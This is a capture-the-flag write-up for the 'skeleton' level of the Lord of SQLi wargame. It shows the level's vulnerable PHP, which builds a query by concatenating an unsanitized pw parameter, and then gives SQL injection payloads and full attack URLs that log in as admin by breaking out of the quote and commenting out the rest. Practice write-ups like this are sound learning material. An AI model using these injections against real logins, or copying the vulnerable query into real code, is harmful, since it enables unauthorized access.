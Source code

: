 # Lord of SQLi - skeleton
> query : select id from prob_skeleton where id='guest' and pw='' and 1=0

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

<br>

- 간단하게 싱글쿼터를 우회하면 풀 수 있다.

### payload 

<br>

> query : select id from prob_skeleton where id='guest' and pw='adf'||id='admin'#' and 1=0

> query : select id from prob_skeleton where id='guest' and pw='adf' or id='admin'#' and 1=0

<br>

> URL : http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=adf%27||id=%27admin%27%23

> URL : http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=adf%27%20or%20id=%27admin%27%23